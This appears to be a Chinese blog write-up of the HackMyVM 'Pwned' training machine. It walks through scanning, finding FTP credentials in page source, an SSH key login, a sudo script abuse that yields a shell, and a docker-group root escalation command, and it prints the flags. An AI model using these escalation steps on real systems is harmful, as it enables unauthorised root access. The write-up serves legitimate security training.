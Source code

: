 ```yaml
---
title: Pwned
author: hgbe02
date: 2024-03-17
categories: [Training platform,Hackmyvm]  
tags: [Hackmyvm,web]  
permalink: "/Hackmyvm/Pwned.html"
---
```


# Pwned

老样子vmware导入，升级，改Nat，打开以后：

![image-20240316131846915](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132783.png)

看上去一切正常，扫描一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132784.png" alt="image-20240316132219107" style="zoom:50%;" />

没扫到？

应该是因为本来是给`virtualbox`设计的，以`1.0`协议导出重新配置一下试试，还是扫不到网卡，难道不能扫？

打开`virtualbox`看看能不能扫到，依旧不行。。。重新配置一下`vmware`的靶场再扫一下：

```bash
sudo netdiscover -r 10.161.61.0/24
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132785.png" alt="image-20240316135652220" style="zoom:50%;" />

依然无法扫描到，真的是很邪门，看来`virtualbox`的靶场配置到`vmware`上，还是有不少问题。

只能先进去看下地址了，参考[渗透靶机扫描不到ip地址_扫不到靶场ip-CSDN博客](https://blog.csdn.net/qq_63283137/article/details/127012635)

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132786.png" alt="image-20240317202909176" style="zoom: 67%;" />

扫不出来。。。直接查flag吧：

```
fb8d98be1265dd88bac522e1b2182140
4d4098d64e163d2726959455d046fd7c
```

本题考察的是docker逃逸，回头去别的地方再尝试吧。

## 信息搜集

### 端口扫描

```bash
nmap -Pn -p- 10.161.216.116
```

![image-20240317203119772](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132787.png)

重新配置了一下：

```bash
nmap 10.161.216.116
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 08:52 EDT
Nmap scan report for 10.161.216.116
Host is up (0.00094s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

### 目录扫描

```bash
gobuster dir -u http://10.161.216.116/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60
```

```text
/nothing              (Status: 301) [Size: 318] [--> http://10.161.216.116/nothing/]
/server-status        (Status: 403) [Size: 279]
/hidden_text          (Status: 301) [Size: 322] [--> http://10.161.216.116/hidden_text/]
Progress: 220560 / 220561 (100.00%)
```

## 漏洞利用

### 查看一下敏感目录

```apl
http://10.161.216.116/nothing 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132788.png" alt="image-20240317205848126" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132789.png" alt="image-20240317205910019" style="zoom: 67%;" />

![image-20240317205931263](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132790.png)

再看一下别的：

```apl
http://10.161.216.116/hidden_text  
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132791.png" alt="image-20240317210029288" style="zoom:50%;" />

```apl
/hacked
/vanakam_nanba
/hackerman.gif 
/facebook
/whatsapp
/instagram
/pwned
/pwned.com
/pubg 
/cod
/fortnite
/youtube
/kali.org
/hacked.vuln
/users.vuln
/passwd.vuln
/pwned.vuln
/backup.vuln
/.ssh
/root
/home
```

是一个字典，拿来扫一下：

```bash
gobuster dir -u http://10.161.216.116/ -w secret.dic -t 60
```

```text
/pwned.vuln           (Status: 301) [Size: 321] [--> http://10.161.216.116/pwned.vuln/]
```

查看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132792.png" alt="image-20240317210255985" style="zoom:50%;" />

尝试弱密码以及万能密码，无果，查看一下源代码，看看有没有东西。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132793.png" alt="image-20240317210427229" style="zoom:50%;" />

我擦原来在这里，尝试ftp查看文件：

### ftp连接

```bash
ftp 10.161.216.116
ftpuser
B0ss_B!TcH
```

![image-20240317210816905](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132794.png)

拿到了私钥和用户名，尝试进行连接：

```bash
chmod 600 id_rsa
ssh ariana@10.161.216.116 -i id_rsa
# ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa ariana@10.161.216.116 没用上不过记录一下
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132795.png" alt="image-20240317211412442" style="zoom: 33%;" />

查看基础信息，居然和`kali`的信息很像`(id)`，哈哈哈！

![image-20240317211623851](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132796.png)

发现`messenger.sh`文件不需要`selena`用户认证即可运行。

运行一下，发现有三个用户，随便输入一个，弹出来了一个shell，扩展一下，我这边傻乎乎的以`ariana`先运行了一遍，哈哈哈：

```bash
# 以selena用户运行程序
sudo -u selena ./messenger.sh
```

```bash
# Welcome to linux.messenger 


# ariana:
# selena:
# ftpuser:

Enter username to send message : selena

Enter message for selena :/bin/bash

# Sending message to selena 
whoami;id
# selena
# uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
python3 -c "import pty;pty.spawn('/bin/bash');"
selena@pwned:/home$ 
```

查看`id`发现用户在`docker`组：

![image-20240317212933458](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132797.png)

尝试进行`docker`提权：

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

获取flag！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403172132799.png" alt="image-20240317213155649" style="zoom:50%;" />

